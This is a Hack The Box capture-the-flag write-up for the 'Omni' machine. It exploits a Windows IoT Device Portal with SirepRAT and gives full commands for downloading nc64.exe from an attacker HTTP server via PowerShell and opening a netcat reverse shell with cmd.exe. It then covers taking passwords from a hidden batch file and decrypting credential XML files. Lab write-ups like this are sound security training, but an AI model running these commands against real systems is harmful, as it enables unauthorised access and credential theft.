 ## HTB Omni Writeup

This was a pretty interesting box and had a new OS that I’ve never messed with.

As always we start with an Nmap scan and adding the box to our hosts file.
![portscan](Pictures/omniPort.jpg)

So we see that it looks like a Windows server but we never get a proper OS fingerprint for it. After some Googling, it turns out to be a Windows IoT device which is why you see the upnp service. ARCserve also might give you a hint as it looks to be an IoT related storage solution.

If you try to browse to the 8080 port, it’ll respond back with a login prompt but it’ll also mention that it’s a Windows Device Portal. If you look around for exploits regarding this, you’ll find a Python script called SirepRAT. This allows us to perform RCE but not interactively. We can run any command we want but it never gives us an interactive shell.

However, after messing around with it for a bit, you’ll see that Powershell is installed and able to be called from this script. That means we’re able to upload and execute a payload or a tool. Something like NetCat perhaps?

It’s important to mention that the proper version of nc.exe is needed for this to work. I used nc64.exe acquired from here: [https://github.com/int0x33/nc.exe](https://github.com/int0x33/nc.exe)

After we have that executable, we can start a Python HTTP Server to serve the payload.

```
krkn@htb:~$ sudo python -m SimpleHTTPServer 80
```

Then we can utilize the SirepRAT.py script to RCE and download that exe.

```
krkn@htb:~/SirepRAT$ python SirepRAT.py 10.10.10.204 LaunchCommandWithOutput --return_output --cmd "C:\Windows\System32\cmd.exe" --args " /c powershell.exe Invoke-WebRequest http://10.10.14.234/nc64.exe -outfile C:\\Windows\\Temp\\nc64.exe" --v
```

This command will tell the remote server to run cmd.exe to then call Powershell to grab the payload we’re serving in our Python HTTP server and save it in the Temp directory.

You’ll see a log in your Python terminal to confirm it was downloaded.

Then we can start a netcat listener.

```
krkn@htb:~$ nc -lvp 4444
```

Finally we can use the SirepRAT.py script again to complete the netcat connection and give us our reverse shell.

```
krkn@htb:~/SirepRAT$ python SirepRAT.py 10.10.10.204 LaunchCommandWithOutput --return_output --cmd "C:\Windows\System32\cmd.exe" --args " /c C:\\Windows\\Temp\\nc64.exe 10.10.14.234 4444 -e cmd.exe" --v
```

At that point, you’ll get that lovely Windows command prompt.

From here you can look around all you want. However, an important file to note is located in C:\Program Files\WindowsPowerShell\Modules\PackageManagement. This file is hidden so use dir /ah to see it. You’ll see an r.bat file and in here you’ll find the passwords for user administrator and user app.

![shell](Pictures/omniShell.jpg)

Remember that login prompt from port 8080? Yeah you can use those creds there. It’ll take you to this.

![login](Pictures/omniLogin.jpg)

From here, you’ll see that under Processes menu, you have the ability to execute commands. You can use that same nc64.exe we dropped earlier to get higher privileges under these user contexts.

But unfortunately, we can’t get user or root because the flags are in some strange XML format.

![xml](Pictures/omniXML.jpg)

After some more Googling, we can decrypt these using Powershell.

After opening a powershell prompt, we can use the following command on both root.txt and user.txt under their prospective user level.

```
$credroot = Import-CliXml -Path C:\\Data\\Users\\administrator\\root.txt


$credroot.GetNetworkCredential().Password
```

This will decrypt the password for us and give us the flags we need.

![finalFlag](Pictures/omniFlag.jpg)
